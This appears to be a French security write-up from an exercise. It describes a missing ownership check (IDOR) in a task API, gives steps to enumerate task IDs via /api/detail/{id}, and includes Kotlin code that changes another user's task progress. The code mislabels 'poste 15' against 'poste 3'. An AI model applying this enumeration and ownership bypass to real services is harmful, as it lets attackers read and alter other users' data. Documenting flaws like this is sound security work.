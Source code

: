 # faille.md

## Faille de sécurité exploitée

### Contexte
L'application offre une API REST pour gérer des tâches, notamment :
- `/api/detail/{id}` pour consulter les détails d'une tâche.
- `/api/progress/{id}/{valeur}` pour modifier le pourcentage de progression d'une tâche.

### Description de la faille
L’API `/api/progress/{id}/{valeur}` ne faisait **aucune vérification** pour s’assurer que l’utilisateur connecté était bien le **propriétaire** de la tâche qu’il essayait de modifier. Par conséquent, il suffisait de connaître l’identifiant (`id`) d'une tâche appartenant à un autre utilisateur pour modifier sa progression.

### Étapes pour exploiter la faille

1. **Connexion avec un utilisateur X (ex. : bob).**
2. **Requête GET sur `/api/detail/{id}`** (en essayant des identifiants de tâches comme 1, 2, 3...) :
   - Permet de récupérer les détails de **toutes les tâches**, même celles d’autres utilisateurs.
3. **Une fois une tâche trouvée appartenant à un autre utilisateur**, envoyer une requête :




//////////////////////////////////////////////////////////////////////////////////////////////////////////////////
fun updatePoste15To62(service: Service) {
    service.getHomeItems().enqueue(object : Callback<List<HomeItemResponse>> {
        override fun onResponse(
            call: Call<List<HomeItemResponse>>,
            response: Response<List<HomeItemResponse>>
        ) {
            if (response.isSuccessful) {
                val tasks = response.body()
                val poste15Task = tasks?.find { it.name == "poste 3" }

                if (poste15Task != null) {
                    val taskId = poste15Task.id
                    service.updateTaskProgress(taskId, 62).enqueue(object : Callback<Void> {
                        override fun onResponse(call: Call<Void>, response: Response<Void>) {
                            if (response.isSuccessful) {
                                println("✅ Task 'poste 15' updated to 62%")
                            } else {
                                println("❌ Failed to update progress")
                            }
                        }

                        override fun onFailure(call: Call<Void>, t: Throwable) {
                            println("❌ Error updating progress: ${t.message}")
                        }
                    })
                } else {
                    println("❌ Task named 'poste 3' not found")
                }
            } else {
                println("❌ Failed to fetch tasks")
            }
        }

        override fun onFailure(call: Call<List<HomeItemResponse>>, t: Throwable) {
            println("❌ Error fetching tasks: ${t.message}")
        }
    })
}